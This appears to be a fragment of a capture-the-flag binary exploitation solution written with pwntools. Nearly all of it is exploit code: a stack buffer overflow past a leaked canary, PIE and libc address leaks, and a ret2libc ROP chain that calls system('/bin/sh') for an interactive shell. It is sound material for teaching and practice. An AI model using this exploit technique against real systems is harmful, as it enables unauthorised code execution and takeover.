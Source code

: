 ```$rdi   : 0x00007fffffffbe50  →  0x0000155555340050  →  <funlockfile+0> endbr64```

# leak PIE and restart the binary
io.sendafter(b"input>",b"A"*0x208 + p64(canary) + b"A"*8 + b"\xf2")
io.recvuntil(p64(canary))
io.recvuntil(b"AAAAAAAA")
pieBase = u64(io.recv(6).ljust(8,b"\x00")) - 0x3f2
log.info("PIE BASE: " + hex(pieBase))

# leak libc and restart binary
printfPlt = p64(pieBase+0xc0)
vuln = p64(pieBase+0x324)
ret = p64(pieBase+0x3fd)

exploit = b"A"*0x208 + p64(canary) + b"B"+b"\x00"*7 + ret + printfPlt + ret + vuln
io.sendafter(b"input>",exploit)

io.recvuntil(b"B")
libc.address = u64(io.recv(6).ljust(8,b"\x00")) - libc.symbols["funlockfile"]
log.info("LIBC BASE: " + hex(libc.address))

# ret2libc
popRdi = p64(libc.address + rop.rdi[0])
ret2libc = b"A"*0x208 + p64(canary) + b"\x00"*8 + ret + popRdi + p64(next(libc.search(b"/bin/sh"))) + p64(libc.symbols["system"])
#gdb.attach(io,gdbscript="break *" + hex(pieBase+0x3e4))
io.sendafter(b"input>",ret2libc)

io.interactive()
```
